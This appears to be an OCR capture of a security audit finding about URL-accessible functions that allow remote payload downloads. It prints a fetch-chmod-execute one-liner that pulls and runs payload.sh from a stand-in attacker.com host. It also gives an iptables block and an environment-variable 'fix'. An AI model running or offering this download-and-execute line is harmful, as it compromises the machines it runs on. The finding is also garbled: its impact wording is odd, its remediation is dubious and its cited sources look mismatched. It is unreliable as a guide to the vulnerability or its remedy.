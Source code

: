 ┃                                                                                                                                                                                                                                     ┃
┃ Vulnerability: Function accessible URLs enable remote payload streaming                                                                                                                                                             ┃
┃ Exploitation Example:                                                                                                                                                                                                               ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃  fetch https://attacker.com/payload.sh && chmod +x payload.sh && ./payload.sh                                                                                                                                                       ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃ Impact: Galvanizes attacker-controlled binaries                                                                                                                                                                                     ┃
┃ Criticality: Critical (CVSS 9.2)                                                                                                                                                                                                    ┃
┃ Remediation:                                                                                                                                                                                                                        ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃  iptables -A OUTPUT -d attacker.com -j DROP &&                                                                                                                                                                                      ┃
┃  echo "LOCK_DOWNLOADS=1" >> /etc/environment                                                                                                                                                                                        ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
┃ Sources:                                                                                                                                                                                                                            ┃
┃ OWASP ASVS - Secure Downloads | MITRE T1543 | SANS AppSec Illegal Resource Access                                                                                                                                                   ┃
┃                                                                                                                                                                                                                                     ┃
┃                                                                                                                                                                                                                                     ┃
